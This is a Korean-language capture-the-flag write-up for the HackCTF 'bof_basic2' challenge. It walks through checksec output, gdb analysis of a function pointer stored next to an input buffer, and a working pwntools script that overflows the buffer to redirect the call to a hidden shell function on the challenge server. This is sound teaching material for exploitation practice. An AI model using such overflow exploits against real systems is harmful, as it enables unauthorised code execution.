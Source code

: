 ```yaml
---
title: "HackCTF bof_basic2 Write-Up"
tags: ["wargame"]
categories: ["System"]
---
```


# Index

1. [문제 분석](#문제-분석)

* * *

## 문제 분석

문제 파일을 다운로드 받은 후 checksec을 통해 간단하게 파일에 대한 확인을 진행하였습니다.

```
[*] '/root/hackctf/bof_basic/bof_basic2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)]
```

마찬가지로 32bit elf였으며 NX bit만 활성화 되어 있었습니다.

프로그램을 실행하여 동작을 확인해보았습니다. 임의의 문자열을 전달할 경우 특정 문구가 출력되며 프로그램이 종료되는 것을 확인할 수 있었습니다.

```
root@3218f793af99:~/hackctf/bof_basic# ./bof_basic2
TEST HAHAHA
하아아아아아아아아앙
```

Overflow가 발생할 수 있을법한 길이의 문자열을 전달할 경우 segmentation fault가 발생하며 프로그램이 종료되었습니다.

```
root@3218f793af99:~/hackctf/bof_basic# (python3 -c 'print("A"*200)'; cat) | ./bof_basic2

Segmentation fault
```

Segmentation fault가 발생하는 것을 보아 입력값의 일부를 이후 명령을 실행하는데 사용하는 주소로 사용하지 않을까 가설을 세우고 gdb를 사용하여 분석을 진행하였습니다.

## GDB 분석

gdb를 통해 assembly code를 분석하기 이전에 프로그램 내에 존재하는 함수들을 확인해보았습니다. 그 중 main 함수 뿐만 아니라 shell, sup 함수 또한 발견할 수 있었습니다.

```
0x0804849b  shell
0x080484b4  sup
0x080484cd  main
```

shell 함수의 경우 dash shell을 실행하는 함수였으며 sup 함수는 문자열을 출력하는 함수였습니다. gdb를 사용해 x/s 옵션으로 확인하려 하였을 때 유니코드 같은 형태가 출력되는 것을 보아 "하아아아아아아아아앙" 문자를 출력하는 것으로 추정하였습니다.

main을 분석해보면 `fgets()` 함수로 입력받기 이전에 `$ebp-0xc` 위치에 sup 함수의 주소를 저장하는 것을 확인할 수 있었습니다. 이후 `fgets()` 함수를 통해 `$ebp-0x8c`부터 `0x85` byte만큼 입력받았습니다. 마지막으로 `$ebp-0xc`에 값을 eax로 mov 후 `call eax`를 실행하는 것을 보아 해당 위치에 shell 함수의 주소를 입력하여 flag를 획득할 수 있음을 추측할 수 있었습니다.

## Exploit

buf부터 `$ebp-0xc`의 거리를 계산해보면 0x80 byte임을 알 수 있었습니다. 따라서 0x80 byte의 padding 이후 shell 함수의 주소를 입력하여 exploit code를 작성하였습니다.

```python
#!/usr/bin/python3

import pwn 

p = pwn.remote("ctf.j0n9hyun.xyz", 3001)

shell = 0x0804849b
padding = b"A"*0x80

payload = padding + pwn.p32(shell)

p.sendline(payload)

p.interactive()
```
